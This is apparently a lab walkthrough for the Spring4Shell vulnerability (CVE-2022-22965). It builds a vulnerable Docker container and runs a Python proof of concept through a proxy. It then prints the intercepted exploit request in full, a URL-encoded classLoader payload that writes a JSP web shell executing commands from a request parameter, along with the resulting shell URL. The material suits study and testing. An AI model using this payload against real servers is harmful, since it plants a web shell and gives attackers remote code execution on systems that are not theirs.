


# Spring4Shell - CVE-2022-22965

## Build
- let's clone the repository, build and run the container

```bash
$ git clone https://github.com/twseptian/cve-2022-22965.git
$ cd cve-2022-22965
$ docker build . -t spring4shell-poc
$ docker run -p 8080:8080 --name spring4shell-poc spring4shell-poc
```
- check the access using browser `http://172.17.0.2:8080/spring-form/greeting`



## PoC
- we add proxy on the `poc.py`.
```bash
[SNIP]
proxies = {'http':'http://127.0.0.1:8081','https':'https://127.0.0.1:8081'} #proxy configuration
[SNIP]
...
[SNIP]
        try:
            requests.post(self.url,
                          headers=headers,
                          data=data,
                          timeout=15,
                          allow_redirects=False,
                          verify=False, proxies=proxies)
[SNIP]                          
```

- run the `poc.py` with following command. 
```bash
$ python3 poc.py --url http://172.17.0.2:8080/spring-form/greeting
Vulnerable，shell url: http://172.17.0.2:8080/tomcatwar.jsp?pwd=j&cmd=whoami
```


**NOTE**: Thanks to [Spring4Shell PoC Application](https://github.com/reznok/Spring4Shell-POC) for the python's exploit

- while the exploit generates a shell url, we can intercept the post request using burpsuite

```bash
POST /spring-form/greeting HTTP/1.1
Host: 172.17.0.2:8080
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 762

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

**NOTE**: you can analyze the request by yourself #lul

- the exploit will generate the shell url. we can access the url on the browser to take a remote code execution from target.




## References
- [Spring4Shell PoC Application](https://github.com/reznok/Spring4Shell-POC)
- [Spring4Shell-POC (CVE-2022-22965)](https://github.com/BobTheShoplifter/Spring4Shell-POC)
